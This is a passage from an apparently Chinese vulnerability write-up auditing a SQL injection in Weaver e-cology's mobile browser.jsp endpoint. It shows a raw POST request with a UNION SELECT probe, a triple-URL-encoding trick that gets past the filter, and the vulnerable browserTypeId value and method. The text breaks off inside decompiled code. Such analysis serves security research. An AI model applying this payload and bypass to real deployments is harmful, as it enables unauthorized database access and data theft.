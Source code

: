 ![](https://gitee.com/fuli009/images/raw/master/public/20230314160627.png)

继续往下，设置了很多参数值，但不过大部分参数都不是必须的。

![](https://gitee.com/fuli009/images/raw/master/public/20230314160632.png)

最后到braction.getBrowserData()方法，这个方法位于classbean/weaver/mobile/webservices/common/BrowserAction.class文件。

![](https://gitee.com/fuli009/images/raw/master/public/20230314160638.png)

最开始有对browserTypeId参数值进行判断，以及很多list开头的方法，接着还对method参数值进行判断，根据不同的值执行不同的list开头的方法，那么注入很大可能就存在某个list开头的方法之中。

先简单尝试注入一下，请求如下：

    
    
    POST /mobile/plugin/browser.jsp HTTP/1.1  
    Host:   
    Accept-Encoding: gzip, deflate  
    Accept: */*  
    Accept-Language: en  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36  
    Connection: close  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 54  
      
    isDis=1&browserTypeId=160&keyword=a%' union select 1,'

![](https://gitee.com/fuli009/images/raw/master/public/20230314160643.png)

可以发现一些与SQL注入相关的敏感关键词（'、select）均被全角化了。那尝试URL编码一下，一层URL编码的请求如下，服务器直接返回500了。

![](https://gitee.com/fuli009/images/raw/master/public/20230314160646.png)

双层URL编码试试，如下图所示，服务器端依旧做了两次URL解码，然后发现'，将其转换成全角字符了，但不过select关键词却没有被全角化。

![](https://gitee.com/fuli009/images/raw/master/public/20230314160648.png)

继续三层URL编码，通过下图可以发现，经过三层编码后的字符串被URL解码两次后顺利到达BrowserAction.getBrowserData()，而在每一个list开头的方法中都有一次URL解码操作，那么就能确保我们的SQL注入payload顺利传递到SQL查询语句中。

![](https://gitee.com/fuli009/images/raw/master/public/20230314160650.png)

下面依次对各个list开头的方法进行审计，最后发现当browserTypeId等于269时，执行的listRemindType()方法中存在一个有回显的SQL注入漏洞。

    
    
    public void listRemindType() {  
        try {  
            new MeetingBrowser();  
            this.keyword = URLDecoder.decode(this.keyword, "UTF-8");  
            if (this.pageInfo.getPageNo() > 0) {  
                this.pageInfo.setPageNo(this.pageInfo.getPageNo());  
            }  
      